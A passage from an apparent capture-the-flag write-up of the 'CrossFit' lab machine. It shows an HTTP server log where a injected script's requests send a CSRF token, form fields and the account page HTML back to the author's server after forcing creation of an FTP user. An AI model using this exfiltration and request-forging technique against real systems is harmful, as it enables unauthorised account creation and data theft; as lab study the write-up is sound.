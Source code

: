 Next, I modified my payload to actually create the new FTP user.  

```text
10.10.10.208 - - [15/Jan/2021 21:51:58] "GET /test3.js HTTP/1.1" 200 -
10.10.10.208 - - [15/Jan/2021 21:51:58] code 501, message Unsupported method ('POST')
10.10.10.208 - - [15/Jan/2021 21:51:58] "POST /username=test3&pass=p@ssword123&_token=EnEv1a4N27y3dqOO8UpAiGqpr3WuAbAUyoJ5D8at HTTP/1.1" 501 -
10.10.10.208 - - [15/Jan/2021 21:51:58] code 404, message File not found
10.10.10.208 - - [15/Jan/2021 21:51:58] "GET /%3C!DOCTYPE%20html%3E%3Chtml%3E%3Chead%3E%20%20%20%20%3Ctitle%3EFTP%20Hosting%20-%20Account%20Management%3C/title%3E%20%20%20%20%3Clink%20href=%22https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css%22%20rel=%22stylesheet%22%3E%3C/head%3E%3Cbody%3E%3Cbr%3E%3Cdiv%20class=%22container%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22row%22%3E%20%20%20%20%20%20%20%20%3Cdiv%20class=%22col-lg-12%20margin-tb%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-left%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ch2%3EFTP%20Hosting%20-%20Account%20Management%3C/h2%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22pull-right%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-success%22%20href=%22http://ftp.crossfit.htb/accounts/create%22%3E%20Create%20New%20Account%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cdiv%20class=%22alert%20alert-success%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cp%3EAccount%20created%20successfully.%3C/p%3E%20%20%20%20%20%20%20%20%3C/div%3E%20%20%20%20%20%20%20%20%3Ctable%20class=%22table%20table-bordered%22%3E%20%20%20%20%20%20%20%20%3Ctr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ENo%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3EUsername%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3ECreation%20Date%3C/th%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%20width=%22280px%22%3EAction%3C/th%3E%20%20%20%20%20%20%20%20%3C/tr%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E1%3C/td%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3Etest3%3C/td%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E2021-01-15%2002:01:55%3C/td%3E%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cform%20action=%22http://ftp.crossfit.htb/accounts/85%22%20method=%22POST%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-info%22%20href=%22http://ftp.crossfit.htb/accounts/85%22%3EShow%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ca%20class=%22btn%20btn-primary%22%20href=%22http://ftp.crossfit.htb/accounts/85/edit%22%3EEdit%3C/a%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22hidden%22%20name=%22_token%22%20value=%22EnEv1a4N27y3dqOO8UpAiGqpr3WuAbAUyoJ5D8at%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cinput%20type=%22hidden%22%20name=%22_method%22%20value=%22DELETE%22%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cbutton%20type=%22submit%22%20class=%22btn%20btn-danger%22%3EDelete%3C/button%3E%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C/form%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/td%3E%20%20%20%20%20%20%20%20%3C/tr%3E%20%20%20%20%20%20%20%20%20%20%20%20%3C/table%3E%20%20%20%20%3C/div%3E%3C/body%3E%3C/html%3E HTTP/1.1" 404 -
```

Got a response on my HTTP server with the parameters I was sending to the server, then again with HTML code of the response.  I hoped that it included some kind of way to tell if I had been successful at creating a user.  

{% hint style="info" %}
I went through a few iterations as you can see...at one point I thought that maybe my request was getting rejected because of too simple of a password so I upgraded it.  It may or may not have been a typo I found in my script, but I left it anyway just in case.
{% endhint %}

```markup
<!DOCTYPE html>
<html>
<head>
    <title>FTP Hosting - Account Management</title>
    <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
</head>
<body>
<br>
<div class="container">
        <div class="row">
        <div class="col-lg-12 margin-tb">
            <div class="pull-left">
                <h2>FTP Hosting - Account Management</h2>
```